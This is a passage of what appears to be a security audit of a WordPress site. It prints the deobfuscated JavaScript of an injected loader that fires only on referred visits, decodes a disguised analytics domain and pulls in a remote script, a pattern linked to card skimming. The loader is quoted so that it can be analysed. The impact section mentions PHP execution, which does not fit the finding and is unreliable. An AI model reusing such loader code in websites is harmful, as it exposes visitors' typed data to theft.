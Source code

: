 
### Plain English/TL;DR

We found hidden code on the website that loads suspicious programs from a fake analytics website. This code is cleverly disguised using techniques to hide its true purpose. It only activates when someone clicks a link to visit the site (not when someone types the address directly). This type of hidden code can steal information that customers type into the website before it's sent to the legitimate server. This is the most serious security problem we found. Also the most fun to analyze.

### Sanitized Deobfuscated Logic

```javascript
(function(document) {
  var now = Math.floor(Date.now() / 1000);
  var roundedTime = now - now % 3600;
  var roundedHex = (now - now % 600).toString(16);
  if (!document.referrer) return;

  var domain = atob('bG9hZC4zNjVhbmFseXRpY3MueHl6'); // 'load.365analytics.xyz'
  var s = document.createElement('script');
  s.type = 'text/javascript';
  s.async = true;
  s.src = 'https://' + domain + '/my.counter.' + roundedTime + '.js?ver=' + roundedHex;

  document.getElementsByTagName('head')[0].appendChild(s);
})(document);
```

### Assessment

- Remote script injection based on time-based filenames and referrer conditions is consistent with:
    
    - Skimming 
        
    - Ad fraud / cloaking
        
    - Evasion of static analysis
        

### Potential Impact

- Remote Code Execution (RCE) if PHP files are placed in executable directories.
    
- Persistence or lateral movement if chained with other vulnerabilities.
    

---

## **Unprotected REST API User Enumeration**

### Description

The WordPress REST API endpoint `/wp-json/wp/v2/users` is accessible to unauthenticated users and leaks usernames.
